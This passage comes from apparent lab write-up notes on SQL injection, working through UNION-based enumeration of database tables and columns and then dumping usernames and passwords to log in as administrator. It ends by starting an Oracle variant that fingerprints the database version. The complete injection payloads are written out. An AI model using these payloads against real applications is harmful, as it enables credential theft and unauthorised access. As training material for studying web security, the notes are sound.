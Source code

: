##### Database Tables Enumeration
- Hence we continue with enumerating the tables in the databse with the query below.

```
' UNION SELECT table_name,table_type FROM information_schema.tables --
```

- We then come across a unusual table name `users_dcgeuu`

![[Pasted image 20220825142114.png]]

##### Column Enumeration of Table
- We then attempt to enumerate for the columns in the table with the following command : 

```
' UNION SELECT column_name,data_type FROM information_schema.columns WHERE table_name = 'users_dgceuu' --
```

- It seems this table only has two columns, `password_zviyrv` and `username_bsdnky`

![[Pasted image 20220825142301.png]]
![[Pasted image 20220825142312.png]]

### Exploitation
- We can now move on leaking the usernames and passwords with the following command:  

```
' UNION SELECT username_bsdnky,password_zviyrv FROM users_dgceuu --
```
![[Pasted image 20220825142734.png]]

- The administrator username and password is found and we login to the adminsitrator page to complete the challenge.

![[Pasted image 20220825142746.png]]
![[Pasted image 20220825142812.png]]

## SQL injection attack, listing the database contents on Oracle
### Enumeration
- We will skip right to the UNION injection phase of vulnerability assessment as the application given here is similar to [[#SQL injection attack listing the database contents on non-Oracle databases]] and that the difference is only in the type and version of database used.

### Vulnerablity Assessment
- It seems like the database is not reactive to 'NULL' values.
![[Pasted image 20220825151150.png]]

#### Database Version Enumeration
- Running the `banner FROM v$version`  query gives us `200 OK`. This signifies that Oracle DB is in use. 
- From the payload, banner is displayed in both columns. Hence we know that there are two columns and both can display strings. 
